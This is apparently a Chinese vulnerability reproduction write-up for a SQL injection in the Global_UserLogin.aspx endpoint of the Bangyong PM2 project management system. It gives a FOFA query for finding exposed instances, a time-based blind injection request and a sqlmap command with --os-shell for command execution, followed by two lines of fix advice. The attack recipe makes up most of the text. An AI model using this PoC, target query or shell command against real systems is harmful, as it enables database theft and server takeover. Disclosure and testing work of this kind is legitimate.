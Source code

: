 
# 邦永PM2项目管理系统 SQL注入漏洞复现

### 0x01 产品简介

   邦永PM2项目管理系统科学地将项目管理思想和方法和谐、统一，使得长期以来困扰项目管理工作者的工期、进度、投资和成本情况无法整体动态管理的问题得到了全面而彻底的解决。

### 0x02 漏洞概述

  邦永科技PM2项目管理平台Global\_UserLogin.aspx接口处未对用户传入的参数未进行有效的过滤，直接拼接至SQL查询的语句中，导致SQL注入漏洞，攻击者可利用该漏洞获取数据库的敏感信息，深入利用可造成服务器失陷。

### 0x03 复现环境

FOFA：body="PM2项目管理系统BS版增强工具.zip"

![](assets/1700701085-484ba86b6a44c4602212e5e4ec3c2a42.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /Global/Global_UserLogin.aspx?accId=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&loginCode=&password=&type= HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```

延时5秒

![](assets/1700701085-2e81c562c8b2d1d5fe025e114f4b1168.png) Sqlmap利用

```sql
python3 sqlmap.py -u "http://your-ip/Global/Global_UserLogin.aspx?accId=1*&loginCode=&password=&type=" --os-shell
```

命令执行 

![](assets/1700701085-83c1b8ae5f6d9fa982b1feacd457b909.png)

### 0x05 修复建议 

关闭互联网暴露面或接口设置外部访问权限

升级至安全版本

